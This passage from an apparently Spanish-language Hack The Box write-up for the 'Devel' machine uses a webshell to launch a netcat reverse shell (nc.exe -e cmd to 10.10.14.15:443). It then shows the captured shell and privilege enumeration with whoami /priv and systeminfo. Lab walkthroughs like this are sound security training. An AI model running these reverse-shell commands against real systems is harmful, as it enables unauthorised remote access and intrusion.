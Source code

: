 Después, en nuestra webshell introducimos el siguiente comando para localizar donde se encuentra el archivo *nc.exe* dentro del sistema `cd C:\ && dir /s nc.exe`. Identificamos que el archivo se encuentran en la ruta `C:\inetpub\wwwroot`. Ahora nos ponemos en escucha por el puerto 443 y nos establecemos una conexión introduciendo el siguiente comando en la webshell `C:\inetpub\wwwroot\nc.exe -e cmd 10.10.14.15 443`

![](/assets/images/htb-devel/devel-cmdasp2.png)

```bash
❯ rlwrap nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.10.5] 49157
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

whoami
whoami
iis apppool\web

c:\windows\system32\inetsrv>
```

Tenemos acceso al sistema. Ahora enumeramos un poco la máquina para observa que privilegios tenemos o de que forma escalamos privilegios.

```bash
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeShutdownPrivilege           Shut down the system                      Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeUndockPrivilege             Remove computer from docking station      Disabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
SeTimeZonePrivilege           Change the time zone                      Disabled

C:\Users>
systeminfo

Host Name:                 DEVEL
OS Name:                   Microsoft Windows 7 Enterprise 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
```